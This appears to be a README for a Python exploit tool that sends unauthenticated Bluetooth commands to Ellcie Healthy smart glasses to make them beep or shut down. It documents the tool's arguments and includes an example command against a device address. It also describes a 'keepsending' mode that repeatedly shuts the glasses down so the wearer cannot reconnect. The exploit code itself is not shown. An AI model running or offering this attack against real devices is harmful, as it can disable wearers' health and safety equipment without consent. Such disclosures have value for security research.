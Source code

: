 

# Ellcie Healthy glasses : Remote Command Execution

>    usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}   [--init {1,0}] [--keepsending {1,0}] 


Arguments:

	 -h, --help            show this help message and exit
	 --address ADDRESS     Glasses BLE addresses
	 --action {BEEP,SHUTDOWN} Action to be executed 
	 --init {1,0}          Should the script activate bluetooth
	 --keepsending {1,0}   Should we keep sending the request ? Doing so will
	                       constantly send the action. That means for example if
	                       you jam the device and send the shutdown request, the
	                       user won't be able to reconnect again, as the device
	                       with again and again shutdown.


### Example 

    python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN


### Video 

https://www.youtube.com/watch?v=fmF9yqJvT5s

